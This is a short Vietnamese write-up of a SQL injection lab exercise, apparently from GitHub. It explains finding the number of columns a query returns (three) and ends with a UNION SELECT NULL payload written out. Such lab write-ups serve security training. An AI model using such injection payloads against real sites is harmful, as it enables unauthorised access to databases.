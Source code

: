 ![image](https://github.com/user-attachments/assets/a9ef937b-96e3-4dd0-953d-84ecd143978c)

Challenge này có nói là chúng ta chỉ cần xác định được số cột mà query nó dùng là thành công,

Vì vậy nên nó thành công rồi. cũng rất dễ.

![image](https://github.com/user-attachments/assets/7f7d0149-4f0d-4c0c-807d-09ff71e34759)

Ta biết được query này có 3 cột

Payload:

```
'union+select+null,null,null--%2b
```

